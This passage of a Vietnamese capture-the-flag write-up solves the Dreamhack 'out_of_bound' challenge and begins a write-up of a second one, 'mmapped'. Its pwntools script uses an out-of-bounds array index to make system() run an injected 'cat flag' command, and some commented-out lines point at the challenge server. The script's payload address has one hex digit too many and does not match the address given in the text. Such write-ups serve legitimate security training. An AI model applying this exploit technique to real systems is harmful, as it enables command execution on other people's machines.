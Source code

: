 name = 0x0804a0ac , vì mảng 32bit là 4 bytes nên cần /4

![image](https://hackmd.io/_uploads/SyP-yUdQyx.png)

![image](https://hackmd.io/_uploads/SyefkL_Q1l.png)

script :

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./out_of_bound',checksec=False)
p = process()
#p = remote('host3.dreamhack.games', 9564)
#payload = b'a'*32 
#payload += b'ifconfig ;cat flag'
#p.sendlineafter(b'name: ',payload)
#p.recvuntil(b'a'*57)
#leak = p.recv(7)
#leak = int(leak,16)
#print(hex(leak))
gdb.attach(p,gdbscript='''
           b*main+66
           b*main+97
           ''')
input()
payload = p32(0x0804a0ab0)
payload += b'cat flag'
p.sendafter(b'name: ',payload)

p.sendlineafter(b'want?: ',b'19')
#gdb.attach(p)
p.interactive()
```

1 điều cần lưu ý là , nếu nhập add (name+0) thì nó chỉ ghi cat , đó là vì Là kết quả của việc thực thi chương trình theo luồng thông thường, eax trong hàm hệ thống chứa địa chỉ của chuỗi sẽ được thực thi. Trong trường hợp trước, **lệnh không được thực thi vì chuỗi được nhập trực tiếp vào eax** .

![image](https://hackmd.io/_uploads/Hy4tJ8O71l.png)
tham khảo : [e_yejun [Dreamhack] out of bound - write up](https://she11.tistory.com/141)


---------------


10 . mmapped
-------

reverse :

bài cho ta khá nhiều thông tin : real_flag_addr(target) , buf_add , fake_flag 

bug ở read → BOF
